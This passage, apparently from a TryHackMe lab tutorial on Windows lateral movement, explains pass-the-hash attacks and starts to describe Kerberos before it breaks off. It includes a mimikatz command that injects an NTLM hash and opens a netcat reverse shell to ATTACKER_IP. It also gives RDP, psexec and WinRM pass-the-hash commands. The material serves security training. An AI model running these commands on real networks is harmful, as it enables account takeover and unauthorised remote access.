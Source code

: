 We can then use the extracted hashes to perform a PtH attack by using mimikatz to inject an access token for the victim user on a reverse shell (or any other command you like) as follows:

```shell-session
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

Notice we used `token::revert` to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work. 

This would be the equivalent of using `runas /netonly` but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user.

To receive the reverse shell, we should run a reverse listener on our AttackBox:

```shell-session
user@AttackBox$ nc -lvp 5555
```

Interestingly, if you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.

## **Passing the Hash Using Linux:**

If you have access to a linux box (like your AttackBox), several tools have built-in support to perform PtH using different protocols. Depending on which services are available to you, you can do the following:

_Connect to RDP using PtH:_

```shell-session
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

_Connect via psexec using PtH:_

```shell-session
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```

**Note:** Only the linux version of psexec support PtH.

_Connect to WinRM using PtH:_

```shell-session
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```

  

## Kerberos Authentication

Let's have a quick look at how Kerberos authentication works on Windows networks:

1. The user sends his username and a timestamp encrypted using a key derived from his password to the **Key Distribution Center (KDC)**, a service usually installed on the Domain Controller in charge of creating Kerberos tickets on the network.
    
